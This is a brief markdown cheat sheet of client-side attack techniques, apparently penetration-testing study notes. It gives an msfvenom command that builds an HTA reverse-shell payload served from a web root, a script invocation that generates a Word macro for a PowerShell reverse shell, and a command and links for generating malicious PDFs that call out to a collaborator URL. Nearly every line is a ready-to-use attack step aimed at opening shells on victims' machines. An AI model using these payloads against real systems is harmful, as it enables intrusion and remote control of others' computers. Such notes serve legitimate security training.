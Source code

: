 # Client-Side Attacks
## HTA Attack in Action

-> Get web browser name, operating system, device type  
https://explore.whatismybrowser.com/useragents/parse/#parse-useragent

-> Creating a malicious .hta with msfvenom
```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

## Microsoft Word Macro Attack
-> Generate a malicious macro for reverse shell in powershell using base64 for .doc
```
python evil_macro.py -l <ip> -p <port> -o macro.txt
```
https://github.com/rodolfomarianocy/Evil-Macro/


## Malicious PDF
-> Malicious PDF Generator
```
python3 malicious-pdf.py burp-collaborator-url
```
https://github.com/jonaslejon/malicious-pdf

-> evilpdf
https://github.com/superzerosec/evilpdf
